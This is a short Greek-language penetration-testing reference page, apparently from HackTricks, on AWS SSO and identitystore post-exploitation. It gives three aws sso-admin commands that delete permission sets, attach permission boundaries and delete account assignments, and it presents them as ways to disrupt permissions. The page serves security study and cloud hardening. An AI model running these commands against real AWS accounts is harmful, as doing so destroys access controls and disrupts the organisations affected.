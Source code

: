 # AWS - SSO & identitystore Μετά-Εκμετάλλευση

{{#include ../../../../banners/hacktricks-training.md}}

## SSO & identitystore

Για περισσότερες πληροφορίες δείτε:

{{#ref}}
../../aws-services/aws-iam-enum.md
{{#endref}}

### `sso:DeletePermissionSet` | `sso:PutPermissionsBoundaryToPermissionSet` | `sso:DeleteAccountAssignment`

Αυτά τα permissions μπορούν να χρησιμοποιηθούν για να διαταράξουν permissions:
```bash
aws sso-admin delete-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>

aws sso-admin put-permissions-boundary-to-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --permissions-boundary-policy-arn <PolicyARN>

aws sso-admin delete-account-assignment --instance-arn <SSOInstanceARN> --target-id <TargetID> --target-type <TargetType> --permission-set-arn <PermissionSetARN> --principal-type <PrincipalType> --principal-id <PrincipalID>
```
{{#include ../../../../banners/hacktricks-training.md}}
